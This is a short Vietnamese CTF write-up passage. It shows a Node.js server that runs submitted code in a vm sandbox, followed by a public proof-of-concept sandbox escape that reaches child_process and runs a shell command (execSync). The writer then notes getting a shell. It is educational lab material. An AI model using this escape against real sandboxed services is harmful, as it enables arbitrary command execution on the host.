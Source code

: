 ````
    try {
        let output = vm.run(code);
        console.log(output);
        res.json({ output });
    } catch (err) {
        res.status(500).json({ error: err.message });
    }
});

app.listen(port, () => {
    console.log(`Server running on http://127.0.0.1:${port}`);
});

````
- Nhận dữ liệu thì server sử dụng vm để tạo môi trường độc lập chạy mã code.

- Searching thì mình tìm được trên exploit-db poc của `vm` đúng khít phiên bản này luôn.

````
const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned'); }
            )
        }
    }
};
p.then();
`;
````

- Tiến hành lấy shell


# Team write up: [Tại đây](https://kcsc.edu.vn/htb-business-ctf-2024-the-vault-of-hope-write-up?fbclid=IwY2xjawF5tBBleHRuA2FlbQIxMAABHUBADREdLyawPdAlOxwR9b0B_5qYHe7BInaovOEPljrzOkKMWqVssX3Pvw_aem_sbo3GIjSuixmivINXYVoHw)